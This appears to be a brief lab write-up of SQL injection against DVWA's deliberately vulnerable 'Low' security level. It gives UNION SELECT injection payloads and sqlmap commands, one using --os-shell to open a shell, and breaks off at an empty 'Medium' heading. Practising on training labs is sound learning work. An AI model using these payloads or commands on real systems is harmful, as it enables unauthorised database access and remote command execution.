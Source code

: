 ## Low
- For low we realised id parameter (GET) was vulnerable and could be easily injected.
```
a' UNION SELECT "lol", @@VERSION ; -- -
a' UNION SELECT "lol", @@VERSION ; -- #

```
- This payload easily worked.
- Next thing I tired was **sqlmap**
- To find injectable parameter 
`sqlmap -u "http://192.168.0.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low;PHP  
SESSID=g832d5mrsta7pm9c1hug0bj8io"`
- To get shell
`sqlmap -u "http://192.168.0.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low;PHP  
SESSID=g832d5mrsta7pm9c1hug0bj8io" --os-shell`

## Medium
